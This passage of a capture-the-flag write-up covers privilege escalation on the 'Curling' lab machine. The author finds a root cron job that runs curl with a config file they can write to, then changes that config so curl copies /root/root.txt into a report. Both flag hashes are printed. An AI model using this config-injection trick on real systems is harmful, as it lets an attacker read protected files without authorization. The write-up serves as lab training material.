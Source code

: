 ```
./pspy64
```

Wait a little bit, then I saw something interesting :

![pspy results](/assets/imgs/curling/pspy.PNG)

This command is run by root :

```
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

Because I didn't knew the '-K' flag, i search information about it ([https://www.computerhope.com/unix/curl.htm](https://www.computerhope.com/unix/curl.htm)) :

```
The config file is a text file in which command line arguments can be written which then will be used as if they were written on the actual command line.
```

With the default input file the command look like this when run :

```
/bin/sh -c curl --url http://127.0.0.1 -o /home/floris/admin-area/report
```

What I want is to read root.txt so here's how I did it :

```
echo 'url = "file:///root/root.txt"' > input
```

And when the script run the command would look like this :

```
/bin/sh -c curl --url file:///root/root.txt -o /home/floris/admin-area/report
```

Just wait that the script run, and the root.txt flag is in the report file !

## Flags

------

### User.txt

```
floris@curling:~$ cat user.txt
65dd1df0713b40d88ead98cf11b8530b
```

### Root.txt

```
floris@curling:~/admin-area$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
```